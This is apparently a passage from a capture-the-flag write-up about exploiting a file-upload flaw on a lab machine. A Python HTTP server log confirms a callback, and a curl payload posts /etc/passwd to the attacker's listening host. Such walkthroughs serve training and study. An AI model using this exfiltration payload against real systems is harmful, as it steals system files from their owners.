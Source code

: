 ![alt text](assets/image-1.png)

After uploading the file and viewing the resulting structure, a GET request arrives to our server, thus confirming the vulnerability:

```
$ python3 -m http.server 2222                                                                                                                              
Serving HTTP on 0.0.0.0 port 2222 (http://0.0.0.0:2222/) ...                                                                                                 
10.10.11.38 - - [09/Mar/2025 11:56:08] "GET / HTTP/1.1" 200 - 
```

Then, we change the payload in order to perform the following actions:
* exfiltrate files
* verify existance of binaries

In first place, we exfiltrate `/etc/passwd`and get a list of users with bash terminal in the machine, consisting of root, app and rosa. To demonstrate that, we specify the payload. `curl -d @/etc/passwd http://10.10.14.182:2222`:
